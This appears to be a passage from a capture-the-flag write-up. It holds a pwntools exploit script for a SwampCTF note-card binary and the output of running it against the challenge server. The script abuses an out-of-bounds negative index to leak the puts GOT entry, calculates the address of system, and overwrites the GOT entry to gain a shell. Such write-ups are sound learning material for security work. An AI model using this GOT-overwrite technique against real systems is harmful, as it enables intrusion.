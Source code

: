 ```py
# Go to index -6, where our puts_got address will be, and read from it
# This will double dereference so [notes - 6] --> [puts_got] --> PUTS_LIBC_ADDR
target.recvuntil(b">")
target.sendline(b"1")
target.recvuntil(b"4): ")
target.sendline(b"-6")
target.sendline(p64(puts_got))

puts_leak = target.recvline()[:-1] + b"\x00\x00"
print(puts_leak)
print(hex(u64(puts_leak)))

# figure out the offsets by finding the remote libc with blukat
remote_system = u64(puts_leak) - 0x2f490

# Go to index -6 again to overwrite the address of puts with system
# This will double dereference so [notes - 6] --> [puts_got] --> PUTS_LIBC_ADDR
target.recvuntil(b">")
target.sendline(b"2")
target.recvuntil(b"4): ")
target.sendline(b"-6")
print("WRITING TO PUTS")
target.sendline(p64(remote_system))


# For some reason 0 doesn't work here
# So still have to send 0 manually once interactive
target.sendline(b"0")
target.interactive()
```

### Flag

```
$ ./solve.py 
[+] Opening connection to chals.swampctf.com on port 40002: Done
b'\n'
b'pb\xff\x1b?V\x00\x00'
0x563f1bff5000
b'\xd0\xcb\x0c\xf2\xa7\x7f\x00\x00'
0x7fa7f20ccbd0
WRITING TO PUTS
[*] Switching to interactive mode
\xd0\xcb\x0c\xa7\x7f
0 - exit
1 - read
2 - write
> 
Notecard number (0 - 4): \xd0\xcb\x0c\xa7\x7f
0 - exit
1 - read
2 - write
> 
Notecard number (0 - 4): \xd0\xcb\x0c\xa7\x7f
0 - exit
1 - read
2 - write
> 
Notecard number (0 - 4): \xd0\xcb\x0c\xa7\x7f
0 - exit
1 - read
2 - write
> 
```